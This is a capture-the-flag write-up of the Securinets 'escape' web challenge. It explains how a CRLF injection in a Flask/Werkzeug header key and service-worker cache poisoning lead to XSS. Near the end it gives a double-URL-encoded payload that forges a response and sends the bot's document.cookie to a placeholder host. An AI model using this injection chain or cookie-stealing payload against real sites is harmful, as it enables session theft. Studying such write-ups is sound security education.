








# OSCP
\
*image from [the author's writeup](https://www.nzeros.me/2023/08/08/securinets%20quasl%202k23/), i didn't take any while the CTF infra was still running.*

- [app.py](assets/app.py)
- [challenge link](https://escape.nzeros.me/)

## TL;DR

i was the first to solve this challenge, it was an XSS challenge as the description implies, through a CRLF injection in Flask/Werkzeug headers delivered using a `ServiceWorker` that implemented response caching.

## Details

Looking at app.py, the first thing i noticed was that the dots in the Regex were not escaped, so i thought regestring a domain name that i control and bypasses the Regex would be an easy win. but i ended up with the intended solution.

```py
def use_regex(input_text):
    pattern = re.compile(r"https://escape.nzeros.me/", re.IGNORECASE)
    return pattern.match(input_text)

@app.route('/reporturl', methods=['POST', 'OPTIONS'])
def report():
    if request.method == "OPTIONS":
        return '', 200, headers
    if request.method == "POST":
        link = request.form['link']
        if not use_regex(link):
            return "wrong url format", 200, headers

        obj = {'url': link}
        # send to bot
        x = requests.post(url, json=obj)
        if (x.content == b'OK'):
            return "success!", 200, headers

    return "failed to visit", 200, headers
```

this is the main page when visiting the challenge link:



this is the JS code executing when the page loads:
```js
const ServiceWorkerReg = async () => {
    console.log("[ServiceWorkerReg] enter")
    if ('serviceWorker' in navigator) {
    console.log("[ServiceWorkerReg] serviceworker in navigator")
    try {
        const params = new URLSearchParams(window.location.search);
        console.log("[ServiceWorkerReg] registering")

        const reg = await navigator.serviceWorker.register(
        `sw.js?user=${params.get("user") ?? 'stranger'}`,
        {
            scope: './',
        }
        );
        loaded = true;
        console.log("[ServiceWorkerReg] registered")
        console.log(reg)
        if (reg.installing) {
        console.log('Service worker installing');
        } else if (reg.waiting) {
        console.log('Service worker installed');
        } else if (reg.active) {
        console.log('Service worker active');
        }
    } catch (error) {
        console.error(`Registration failed with ${error}`);
    }
    }
    else {
    console.log("browser doesn't support sw")
    }
};

console.log("app.js")
ServiceWorkerReg();
var loaded;
```

looking at sw.js, we can see that it implements some kind of caching of responses (note: `https://testnos.e-health.software` is where app.py is running):
```js
const params = new URLSearchParams(self.location.search)
const userId = params.get("user")
const serverURL = `https://testnos.e-health.software/GetToken?userid=${userId}`;
async function getToken() {
  const myHeaders = new Headers();
  myHeaders.append('Content-Type', 'application/json');


  const myRequest = new Request(serverURL, {
    method: 'GET',
    headers: myHeaders,
  });

  try {
    const response = await fetch(myRequest);

    if (!response.ok) {
      throw new Error('Network response was not ok');
    }
    const responseFromCache = await caches.match(myRequest);

    if (responseFromCache) {
      const data = await responseFromCache.json();
      return data.token;
    }
    putInCache(myRequest, response.clone())
    const data = await response.json();
    return data.token;
  } catch (error) {
    console.error('Error fetching token:', error.message);
    return null;
  }
}

async function fetchDataWithToken(token, url) {
  try {
    const auth = `Auth-Token-${userId}`
    const headers = {}
    headers[auth] = token
    const response = await fetch(url, {
      method: 'GET',
      headers: headers,
    });

    if (!response.ok) {
      throw new Error('Network response was not ok');
    }

    return response
  } catch (error) {
    console.error('Error fetching data with token:', error);
  }
}

const addResourcesToCache = async (resources) => {
  const cache = await caches.open('v1');

  await cache.addAll(resources);
};

const putInCache = async (request, response) => {
  if ((request.url.indexOf('http') === -1)) return;
  const cache = await caches.open('v1');
  await cache.put(request, response);
};
const cacheFirst = async ({ request, preloadResponsePromise, fallbackUrl }) => {
  if ((request.url.indexOf('http') === -1)) return;
  const responseFromCache = await caches.match(request);
  if (responseFromCache) {
    return responseFromCache;
  }

  const preloadResponse = await preloadResponsePromise;
  if (preloadResponse) {

    console.info('using preload response', preloadResponse);
    putInCache(request, preloadResponse.clone());
    return preloadResponse;
  }

  try {

    const token = await getToken()
    const responseFromNetwork = await fetchDataWithToken(token, request.clone());
    putInCache(request, responseFromNetwork.clone());
    return responseFromNetwork;

  } catch (error) {
    console.log(error)
    const fallbackResponse = await caches.match(fallbackUrl);
    if (fallbackResponse) {
      return fallbackResponse;
    }
    return new Response('Network error happened', {
      status: 408,
      headers: { 'Content-Type': 'text/plain' },
    });
  }
};

const enableNavigationPreload = async () => {
  if (self.registration.navigationPreload) {

    await self.registration.navigationPreload.enable();
  }
};

self.addEventListener('activate', (event) => {
  event.waitUntil(enableNavigationPreload());
});

self.addEventListener('install', (event) => {

  event.waitUntil(async () => {
    await addResourcesToCache([
      './',
      './index.html',
      './style.css',
      './app.js',
      './securinets.html',
      './helloworld.html',
      './purify.js',
      './securinets.png',
    ])
  }
  );
});

self.addEventListener('fetch', (event) => {
  let req = null
  if (event.request.url.endsWith('/GetToken')) {
    req = new Request(serverURL, event.request)
  }

  event.respondWith(
    cacheFirst({
      request: req ?? event.request,
      preloadResponsePromise: event.preloadResponse,
      fallbackUrl: './securinets.png',
    })
  );
});
```
the `ServiceWorker` implements a caching for [fetch events](https://developer.mozilla.org/en-US/docs/Web/API/ServiceWorkerGlobalScope/fetch_event) which is HTTP requests.

the app has 2 interesting endpoints:

`/helloworld`:



`/securinets`:



`/securinets` is using DOMPurify so no XSS, unlike `/helloworld`, however the XSS must come from the response of (`/GetToken`). lets see if we can change it:
```py
@app.route('/GetToken', methods=['GET', 'OPTIONS'])
def get_token():

    if request.method == "OPTIONS":
        return '', 200, headers

    try:
        new_header: dict[str, str | bytes] = dict(headers)
        userid = request.args.get("userid")

        if not userid:
            return jsonify({'error': 'Missing userid'}), 400, headers

        if userid in user_tokens:
            token = user_tokens[userid]
        else:
            token = generate_token()
            user_tokens[userid] = token
        new_header["Auth-Token-" +
                   userid] = token

        return jsonify({'token': token, 'user': str(escape(userid))[:110]}), 200, new_header

    except Exception as e:
        return jsonify({'error': f'Something went wrong {e}'}), 500, headers
```
So `userid` query param is not exploitable since it is escaped, and token is randomly generated, or grabbed from `user_tokens` list, which we cannot change as it is only updated one time with a random token.

However looking at the code we can notice that the value of `userid` is concatinated with `Auth-Token-` and returned as a header. a quick check if we have a CRLF injection:



lets inject a new response (tested locally):



now we can inject a new JSON response, the only problem would be that the junk after our injected response would cause a problem for `response.json()` in the SW. we could inject a new `Content-Length` header, but actually adding more chars to the injected response truncated the response. if you are wondering why the challenge it self is hosted behind CloudFlare which is uses HTTP2 (Content-Length header not needed), so the app.py returns:

```py
    return jsonify({'token': token, 'user': str(escape(userid))[:110]}), 200, new_header
```
the `Content-Length` will always be `145`:

```py
    len('{"token":"') + 12 + len('","user":"') + 110 + len('"}') + len('\n')
```

for instance:


so lets pad the response, and inject an XSS payload in `user`:



i used `window.location` just to avoid the caching done by the `ServiceWorker`.

the catch here is that the exploit requires two bots interaction which is very unusual for XSS bots but it makes sense as the app is usuing a `ServiceWorker` which is persistent, which itself uses `Cache Storage`.

the payload should be double URL encoded, as the `ServiceWorker` would consume the first URL encoding.

- the first URL to report would be: `https://https://escape.nzeros.me/?user =%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%25%32%66%25%36%35%25%37%33%25%36%33%25%36%31%25%37%30%25%36%35%25%32%65%25%36%65%25%37%61%25%36%35%25%37%32%25%36%66%25%37%33%25%32%65%25%36%64%25%36%35%25%32%66%25%36%38%25%36%35%25%36%63%25%36%63%25%36%66%25%37%37%25%36%66%25%37%32%25%36%63%25%36%34%25%33%66%25%37%35%25%37%33%25%36%35%25%37%32%25%33%64%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%34%31%25%32%35%25%33%30%25%36%34%25%32%35%25%33%30%25%36%31%25%37%38%25%32%35%25%33%30%25%36%34%25%32%35%25%33%30%25%36%31%25%32%35%25%33%30%25%36%34%25%32%35%25%33%30%25%36%31%25%32%35%25%33%30%25%36%34%25%32%35%25%33%30%25%36%31%25%37%62%25%32%35%25%33%32%25%33%32%25%37%34%25%36%66%25%36%62%25%36%35%25%36%65%25%32%35%25%33%32%25%33%32%25%33%61%25%32%35%25%33%32%25%33%32%25%35%33%25%32%35%25%33%32%25%33%32%25%32%63%25%32%35%25%33%32%25%33%32%25%37%35%25%37%33%25%36%35%25%37%32%25%32%35%25%33%32%25%33%32%25%33%61%25%32%35%25%33%32%25%33%32%25%32%35%25%33%33%25%34%33%25%36%39%25%36%64%25%36%37%25%32%66%25%37%33%25%37%32%25%36%33%25%33%64%25%32%35%25%33%32%25%33%37%25%37%38%25%32%35%25%33%32%25%33%37%25%32%66%25%36%66%25%36%65%25%36%35%25%37%32%25%37%32%25%36%66%25%37%32%25%33%64%25%32%37%25%36%63%25%36%66%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%33%64%25%35%35%25%35%32%25%34%63%25%33%66%25%36%36%25%36%63%25%36%31%25%36%37%25%33%64%25%32%34%25%37%62%25%36%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34%25%32%65%25%36%33%25%36%66%25%36%66%25%36%62%25%36%39%25%36%35%25%37%64%25%36%30%25%32%37%25%32%35%25%33%33%25%34%35%25%36%31%25%36%31%25%36%31%25%36%31%25%32%35%25%33%32%25%33%32%25%37%64`.
- the second url to report would be: `https://escape.nzeros.me/helloworld`.

the first URL will set the cache of the XSS bot to:

```js
const serverURL = `https://testnos.e-health.software/GetToken?userid=OWR_PAYLOAD
```

the second URL would call `/GetToken` which is handled by the `ServiceWorker`:
```js
self.addEventListener('fetch', (event) => {
  let req = null
  if (event.request.url.endsWith('/GetToken')) {
    req = new Request(serverURL, event.request)
  }

  event.respondWith(
    cacheFirst({
      request: req ?? event.request,
      preloadResponsePromise: event.preloadResponse,
      fallbackUrl: './securinets.png',
    })
  );
});
```

the `serverURL` is previously set to the CRLF payload. the result:



flag: `Securinets{Great_escape_with_Crlf_in_latest_werkzeug_header_key_&&_cache_poison}`
